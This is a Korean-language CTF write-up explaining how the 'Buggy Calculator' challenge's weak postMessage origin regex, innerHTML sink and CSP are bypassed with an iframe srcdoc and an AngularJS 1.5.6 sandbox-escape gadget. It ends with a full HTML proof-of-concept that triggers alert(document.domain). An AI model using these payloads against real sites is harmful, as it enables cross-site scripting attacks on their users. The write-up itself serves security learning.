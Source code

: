```yaml
---
layout: post
date: 2021-06-11 00:00:11
title: "Buggy Calculator Write Up"
categories: CTF
tags: [XSS]
author:
  - Jeongwon Jo

---
```

## Descriptions

Buggy Calculator 문제는 CSP 및 SOP를 우회하고 XSS를 트리거 하는 문제이다.

---
## Analysis

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Buggy%20Calculator/images/1.png?raw=true)

문제로 들어오면 위와 같이 계산기가 있는 것을 볼 수 있고, 우리가 일반적으로 사용하는 방식과 동일하고, 숫자 및 연산자를 제외한 값들은 사용할 수 없다. 일단 여기에서는 따로 할 수 있거나 알 수 있는 게 없기 때문에 코드를 확인 해 보기로 했다.


```html
<meta http-equiv="Content-Security-Policy" content="script-src 'unsafe-eval' 'self'; object-src 'none'">
```
일단 코드를 보니 제일 위에 `meta`를 이용해서 `CSP`를 설정하고 있는 것을 볼 수 있다. CSP가 설정이 되어 있기 때문에 `<script>`, `<img>`와 같은 태그들을 이용해서 XSS 익스 시도를 할 수 있지만 CSP에 의해서 스크립트 실행은 되지 않을 것 이다. 그렇기 때문에 일단 해야 할 것 중 하나는 CSP 우회이다.

```html
		<script src="angular.min.js"></script>
		<script src="jquery.min.js"></script>
		<script src="script.js"></script>
```
밑으로 가서 코드를 확인해 보니 위와 같이 리소스 파일을 랜더링 하는 것을 볼 수 있다. 여기서 중요한 부분은 `angular.min.js` 파일을 랜더링 해온다는 것 이다. ` AngularJS`에서 사용되는 가젯들을 이용해서 XSS 익스를 시도할 수 있는데, 이를 이용하면 `CSP`를 쉽게 우회할 수 있을 거 같다.

```
/*
 AngularJS v1.5.6
 (c) 2010-2016 Google, Inc. http://angularjs.org
 License: MIT
*/
```
` AngularJS`의 버전을 확인해 보니 `1.5.6`인 것을 볼 수 있다. 버전마다 사용하는 가젯이 다르기 때문에 이제 해당 버전을 기반으로 해서 XSS 페이로드를 찾으면 된다. 나는 Owasp PDF에서 찾았다.

```js
function sendEquation(msg){
	theiframe.postMessage(msg);
}
```
```html
<iframe name="theiframe" style="height:65px;width:100%; left:-100px; margin-top:-05px;margin-bottom:-30px;" frameBorder="0" src="frame.html"></iframe>
```
위 리소스 파일들을 보면 `script.js` 파일도 랜더링 하는 것을 볼 수 있는데, 코드를 확인해보면 제일 밑에 위와 같이 `theiframe`라는 `iframe`으로 `postMessage` 메서드를 이용해서 값을 전달해주는 것을 볼 수 있고, 코드를 보면 위와 같이 `frame.html`을 끌어와서 사용하는 것도 볼 수 있다.

```html

<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8">
		<meta http-equiv="Content-Security-Policy" content="script-src 'unsafe-eval' 'self'; object-src 'none'">
		<link href='https://fonts.googleapis.com/css?family=Ubuntu:400,700' rel='stylesheet' type='text/css'>
		<script src="frame.js"></script>
		<style>
		html {
			clear: both;
			font-family: digital;
			font-size: 24px;
			text-align: right;
			letter-spacing: 5px;
		    font-family: 'Ubuntu', sans-serif;
		    overflow: hidden;
		}
		</style>
		<title></title>
	</head>
	<body>
		0
	</body>
</html>
```
위 코드는 `frame.html`의 코드인데 잘 보면 `frame.js`를 끌어와서 사용하는 것을 볼 수 있다. 지금까지 분석을 통해서 알 수 있는 건 게산기를 통해서 `1+1`을 입력 받고, 이를 `postMessage` 메서드를 이용해서 `frame.html`로 전달 하고, `frame.js`에서 특정 로직을 거치고 `<body>`의 삽입하는 거 같다. 즉, 우리가 원하는 값을 `body`의 삽입할 수 있으면 XSS 트리거를 할 수 있다.

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Buggy%20Calculator/images/2.png?raw=true)

즉, 위 부분이 `frame.html`이라고 봐도 무방하다.

```js
window.addEventListener("message", receiveMessage, false);

function receiveMessage(event) {

	// verify sender is trusted
	if (!/^http:\/\/calc.buggywebsite.com/.test(event.origin)) {
		return
	}
	
	// display message 
	msg = event.data;
	if (msg == 'off') {
		document.body.style.color = '#95A799';
	} else if (msg == 'on') {
		document.body.style.color = 'black';
	} else if (!msg.includes("'") && !msg.includes("&")) {
		document.body.innerHTML=msg;
	}
}
```
위 코드는 `frame.js`의 코드이다. 잘 보면 `postMessage` 메서드로 전달 받은 값을 `receiveMessage` 메서드로 받고, 처리하는 것을 볼 수 있다. 이때 조건문을 이용해서 origin을 확인하는 것을 볼 수 있다. 즉, 해당 프레임으로 요청을 보낼 수 있는 건 `http://calc.buggywebsite.com`라는 오리진을 가진 애들이다.

```js
if (!/^http:\/\/calc.buggywebsite.com/.test("http://calc.buggywebsite.com.example.com")) {
    console.log("Same Origin Plz..");
}
> undefined
```
조건문을 위와 같이 확인을 해보면 정규식이 `^` 이기 때문에 `http://calc.buggywebsite.com.example.com`와 같은 오리진을 가진 사이트에서 요청을 보내줘도 필터링에 걸리지 않는 것을 볼 수 있다. `https://bugpoc.com/` 에서 프론트 엔드를 원하는 오리진으로 생성할 수 있는데 이를 이용해서 poc 코드를 올려주게 되면 위 구문은 쉽게 우회할 수 있다.

그리고 오리진 검사 로직을 통과하게 되면 msg 값을 조건문을 상황에 맞게 실행시키는 것을 볼 수 있는데, 여기서 제일 밑 조건문 내부를 보면 msg의 값을 innserHTML 메서드를 이용해서 돔 내부에 삽입하는 것을 볼 수 있는데 HTML 5에서는 innserHTML의 값으로 `<script>`가 들어오게 되면 스크립트 태그를 실행시키지 않기 때문에 `<script>` 태그를 제외한 나머지 태그를 이용해서 XSS 트리거를 해야 한다.

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Buggy%20Calculator/images/3.png?raw=true)

그래서 이미지 태그를 이용해서 XSS를 트리거 하려 했지만 frame.html에도 csp가 설정이 되어 있어 csp에 걸리는 것을 볼 수 있다. 결국에는 AngularJS 가젯을 이용해서 XSS를 트리거 해야 하는데 `frame.html`에는 `angular.min.js` 파일이 랜더링 되어 있지 않기 때문에 `<script>` 태그를 이용해서 불러와줘야 한다. 그치만 우리는 `<script>` 태그를 사용할 수 없다.

하지만 `<iframe>` 태그의 srcdoc 속성을 이용해서 프레임 내에 `<script>` 태그를 이용하면 iframe 내부에서 별도로 코드를 실행 시키기 때문에 이를 우회하고 스크립트 태그를 실행 시킬 수 있다. 

```html
<iframe srcdoc="<script src=/angular.min.js></script><div ng-app>{{ 7*7 }}</div>"></iframe>
```
그래서 위와 같이 페이로드를 작성해주었다. socdoc를 보면 `<script>` 태그를 이용해서 앵귤러 파일을 랜더링 해준 후에 앵귤러 표현식을 이용해 주었다. `<div>` 태그의 들어 있는 `ng-app`은 이 태그를 기준으로 앵귤러를 사용하겠다는 지시문이다. 

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Buggy%20Calculator/images/4.png?raw=true)

돔으로 넣어주니 iframe 내에서 스크립트 태그가 잘 실행 됐고, 앵귤러 표현식도 잘 되는 것을 볼 수 있었다.

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Buggy%20Calculator/images/5.png?raw=true)

이제 앵귤러 표현식으로 가젯을 이용해서 alert() 함수를 실행 시켜 주면 된다. 가젯을 이용한 XSS Poc 코드는 [Owasp](https://owasp.org/www-chapter-london/assets/slides/OWASPLondon20170727_AngularJS.pdf)에서 확인할 수 있었다. 

```
{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}}
```
위 사진을 보면 위와 같은 페이로드가 있는 것을 볼 수 있다.

---
## Exploit

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Buggy%20Calculator/images/trigger.gif?raw=true)

---
## Poc (Sollution)

```html
<!DOCTYPE html>
<html>
    <head>
        <title>Poc XSS about Calculate</title>
    </head>
    <script>
        const win = window.open('http://calc.buggywebsite.com/frame.html');
        const exploit = function(){
            setTimeout(function(){ win.postMessage(["<iframe srcdoc=\"<script src=/angular.min.js><\/script><div ng-app>{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(document.domain)');}}</div>\"></iframe>"],'*') }, 3000);
        }
      </script>
    <body>
        <h1>BugPoc XSS Challenge</h1>

        <h3>If you click the button below and execute poc code, You can trigger the xss.</h3>
        <input type="button" onclick=exploit() value="Trigger">
    </body>
</html>
```

---
## Reference

[https://munhwasudo.tistory.com](https://munhwasudo.tistory.com/entry/2-ngapp-nginit-%EC%82%AC%EC%9A%A9%ED%95%98%EA%B8%B0-AngularJS%EA%B0%9C%EB%85%90-%EA%B0%84%EB%8B%A8%ED%95%9C-todo%EA%B0%9D%EC%B2%B4-%EB%A7%8C%EB%93%A4%EC%96%B4%EB%B3%B4%EA%B8%B0)<br>
[https://developer.mozilla.org/ko/docs/Web/API/Window/postMessage](https://developer.mozilla.org/ko/docs/Web/API/Window/postMessage)<br>
[https://owasp.org/www-chapter-london/assets/slides/OWASPLondon20170727_AngularJS.pdf](https://owasp.org/www-chapter-london/assets/slides/OWASPLondon20170727_AngularJS.pdf)

---
